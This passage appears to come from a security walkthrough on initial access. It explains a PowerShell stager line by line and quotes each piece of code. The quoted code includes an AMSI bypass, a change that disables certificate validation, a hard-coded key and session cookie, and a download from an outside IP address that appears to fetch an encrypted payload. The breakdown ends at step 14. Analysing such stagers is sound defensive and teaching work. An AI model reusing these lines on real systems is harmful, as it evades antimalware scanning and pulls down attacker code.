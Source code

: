 ![Untitled](Screenshots/3-InitialAccess/image37.webp)

</aside>

This script performs several tasks related to security evasion and unauthorized access. Let's break it down step by step:

1. **`[REF].ASSEmblY.GeTTYPe('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GetFIELd('amsiInitFailed','NonPublic,Static').SetVaLue($nuLl,$TruE)}`**: This part of the script is attempting to disable AMSI (Antimalware Scan Interface) in PowerShell by setting the **`amsiInitFailed`** field to **`$true`**, effectively bypassing potential antivirus or antimalware detections.
2. **`[SYsTEM.Net.SerVIcEPOinTMAnAGEr]::EXPEcT100CONtinue=0;`**: This line disables the "Expect: 100-continue" header in HTTP requests, which can improve performance but may not be necessary for all scenarios.
3. **`$wC=NEw-OBjECT SysTem.NEt.WeBCliEnT;`**: This creates a new instance of **`System.Net.WebClient`**, which is used for sending HTTP requests.
4. **`$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';`**: This line sets the user-agent string to mimic a web browser on a Windows system.
5. **`[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};`**: This line sets the server certificate validation callback to always return true, effectively ignoring SSL certificate errors.
6. **`$Wc.HeADers.Add('User-Agent',$u);`**: This adds the user-agent string to the HTTP request headers.
7. **`$Wc.PROXy=[System.NEt.WEBRequeST]::DefAUltWebPrOxy;`**: This line sets the proxy for the web client to the default system web proxy.
8. **`$WC.PRoxy.CREDeNtIAls = [SySteM.NET.CRedENtiAlCAChE]::DeFAulTNETWoRkCreDENTIalS;`**: This sets the credentials for the proxy to the default network credentials.
9. **`$K=[SysTem.TExt.ENcOdiNG]::ASCII.GetBYTes('389288edd78e8ea2f54946d3209b16b8');`**: This line initializes a key using ASCII bytes.
10. **`$R={$D,$K=$ArgS; ... }`**: This defines a function **`$R`** that performs a custom encryption or decryption operation using a provided key **`$K`**.
11. **`$WC.HeaDeRS.Add("Cookie","session=jknXpoa7pUA0lDB+nYiQvU9unHg=");`**: This adds a cookie to the HTTP request headers, potentially for maintaining a session.
12. **`$ser='https://45.77.65.211:443'; $t='/login/process.php';`**: These lines set the server URL and target endpoint for the HTTP request.
13. **`$DATA=$WC.DoWnLoAdDaTa($SEr+$t);`**: This line sends an HTTP request to the specified URL and endpoint and stores the response data.
14. **`$IV=$DATa[0..3]; $dATa=$DaTA[4..$daTa.LeNGtH];`**: These lines extract the initialization vector and actual data from the response.